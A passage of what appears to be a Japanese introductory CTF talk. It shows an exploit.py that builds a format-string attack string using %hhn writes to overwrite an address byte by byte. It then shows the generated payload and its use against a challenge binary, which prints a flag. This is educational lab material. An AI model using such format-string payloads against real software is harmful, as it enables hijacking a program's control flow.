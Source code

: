 `exploit.py <上書きたいアドレス> <目当てのジャンプ先> <スタックのインデックス>` とすると echo の書式で攻撃用文字列を出力します。

```bash
$ python exploit.py 080499e0 08048691 6
echo -e "\xe0\x99\x04\x08\xe1\x99\x04\x08
         \xe2\x99\x04\x08\xe3\x99\x04\x08
         %129x%6\$hhn%245x%7\$hhn%126x%8\$hhn%4x%9\$hhn"
```

出力される内容は `0x80499e0` 〜 `0x80499e4` のアドレスへ `0x8048691` を1バイトずつ書きこむようなものです。

※紙面都合で改行していますが、実際には1行です

---

もう誰も聞いていない気もしますが、実際に攻撃してみたいと思います。

```bash
[q4@localhost ~]$ echo -e "\xe0\x99(...略...)$hhn" | ./q4
```

```text
What's your name?
# (なんか空白とか数値とかが沢山)
FLAG_nwW6eP503Q3QI0zw
```

おー、`FLAG_` で始まる文字列が表示されましたね！これがいわゆるフラグと呼ばれるものであり、問題を問いた証明となります。
「一体それの何が面白いの?」と思われるかもしれませんが、問題に苦労すればするほど、フラグを見付けたときの達成感は格別なものがあります。経験してみて欲しいです。

---

# まとめ

本スライドや資料は

http://192.168.10.153:10080/t.hamamoto/ctf/tree/master

からダウンロードできます。

ちょっとでも面白そうと思った方はやってみましょー。


[^1]: Own をもじって Pwn と呼ぶ Jargon のようです